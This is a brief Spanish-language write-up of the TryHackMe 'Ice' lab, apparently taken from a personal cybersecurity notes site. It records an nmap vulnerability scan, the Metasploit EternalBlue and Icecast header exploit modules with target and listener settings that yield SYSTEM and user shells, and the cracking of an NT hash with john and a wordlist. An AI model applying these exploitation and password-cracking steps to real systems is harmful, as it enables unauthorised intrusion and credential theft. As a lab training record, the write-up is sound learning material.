

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/tryhackme/ice/index.html · generator: mkdocs

# Ice

## Resolucion explotanto blue eternal

![](../../assets/img/Pasted_image_20251014143224.png)

`nmap -T5 -script vuln 10.10.201.135`

![](../../assets/img/Pasted_image_20251014143252.png)

`windows/smb/ms17_010_eternalblue`
`set RHOSTS 10.10.201.135`
`set LHOST 10.8.63.150`
**NT AUTHORITY\SYSTEM**

## Escalada

Vemos el usuario Dark

![](../../assets/img/Pasted_image_20251014144207.png)

`john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
**Password01!**

Flags
`dir /s /b *flag*`
/s : recorrer recursivamente
/b : print minimalista, solo directorio
No encontramos nada

## Resolucion explotanto icecast

metasploit -> `exploit(windows/http/icecast_header)`
`set RHOSTS 10.10.8.134`
`set LHOST 10.8.63.150`
**Dark-PC\Dark**
